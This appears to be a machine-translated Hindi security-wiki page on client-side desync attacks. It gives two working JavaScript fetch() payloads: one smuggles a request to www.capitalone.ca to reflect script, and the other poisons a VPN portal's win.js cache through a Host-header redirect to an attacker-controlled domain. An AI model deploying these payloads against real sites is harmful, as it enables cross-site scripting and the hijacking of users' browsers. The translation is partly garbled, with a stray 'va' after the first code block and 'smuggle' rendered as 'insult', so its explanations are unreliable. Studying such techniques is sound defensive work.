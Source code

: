 ## हमला उदाहरण

### स्टैक्ड हेड उदाहरण

* **रंगीन हमला**

![](<../../.gitbook/assets/image (2) (3).png>)

* **JS हमला**
```javascript
fetch('https://www.capitalone.ca/assets', {
method: 'POST',
// use a cache-buster to delay the response
body: `HEAD /404/?cb=${Date.now()} HTTP/1.1\r\nHost: www.capitalone.ca\r\n\r\nGET /x?x=<script>alert(1)</script> HTTP/1.1\r\nX: Y`,
credentials: 'include',
mode: 'cors' // throw an error instead of following redirect
}).catch(() => {
location = 'https://www.capitalone.ca/'
})va
```
व्याख्या:

* /assets में CL.0 का दुरुपयोग करें (यह /assets/ पर रीडायरेक्ट करता है और CL की जांच नहीं करता है)
* HEAD अनुरोध को अपमानित करें (क्योंकि HEAD प्रतिक्रियाएं अभी भी एक सामग्री-लंबाई को संबोधित करती हैं)
* प्रतिक्रिया में प्रतिबिंबित होने वाले GET अनुरोध को अपमानित करें, जिसकी सामग्री प्रतिक्रिया में प्रतिबिंबित होगी।
* HEAD अनुरोध की सामग्री-लंबाई के कारण, इस अनुरोध की प्रतिक्रिया HEAD अनुरोध के शरीर की होगी।
* कॉर्स मोड सेट करें। सामान्यतः यह नहीं किया जाता है, लेकिन इस मामले में सर्वर की प्रारंभिक POST की प्रतिक्रिया एक रीडायरेक्ट है जो अगर अनुसरण किया जाएगा तो उत्पादन कार्य नहीं करेगा। इसलिए, कॉर्स मोड का उपयोग एक त्रुटि को उत्पन्न करने और पीड़ित को रीडायरेक्ट करने के लिए किया जाता है।

### **होस्ट हैडर रीडायरेक्ट + क्लाइंट-साइड कैश पॉइजनिंग**

* JS उत्पीड़न
```javascript
fetch('https://redacted/', {
method: 'POST',
body: "GET /+webvpn+/ HTTP/1.1\r\nHost: x.psres.net\r\nX: Y",
credentials: 'include'}
).catch(() => { location='https://redacted/+CSCOE+/win.js' })
```
* `/+webvpn+/` पर एक अनुरोध जिसमें **Host हैडर में अलग डोमेन** होता है, `/+webvpn+/index.html` पर एक **रीडायरेक्ट** के साथ उत्तर दिया जाता है जो **Host हैडर के डोमेन** की ओर होता है।
* **दूसरे** अनुरोध में स्थान `/+CSCOE+/win.js` पर सेट किया जाता है ताकि उस `.js` फ़ाइल के **कैश** को **पॉइज़न** किया जा सके।
* इस अनुरोध का उत्तर `/+webvpn+/` के रीडायरेक्ट के साथ दिया जाएगा और यह रीडायरेक्ट होगा `/+webvpn+/index.html` के आक्रमक डोमेन के साथ होगा।
* **`win.js`** का **कैश** एक **रीडायरेक्ट** के साथ **पॉइज़न** किया जाएगा जो **हमलावर** के पेज की ओर होगा, लेकिन विक्टिम भी रीडायरेक्ट का पालन करेगा क्योंकि इसे `location` चर में निर्धारित किया गया है और वह हमलावर के वेब पेज में समाप्त होगा।
* फिर हमलावर विक्टिम को `https://redacted/+CSCOE+/logon.html` पर **रीडायरेक्ट** करेगा। इस पेज में `/+CSCOE+/win.js` को आयात किया जाएगा। जिसका **कैश एक रीडायरेक्ट** होता है हमलावर के सर्वर की ओर, इसलिए हमलावर एक खतरनाक JS के साथ प्रतिक्रिया कर सकता है।

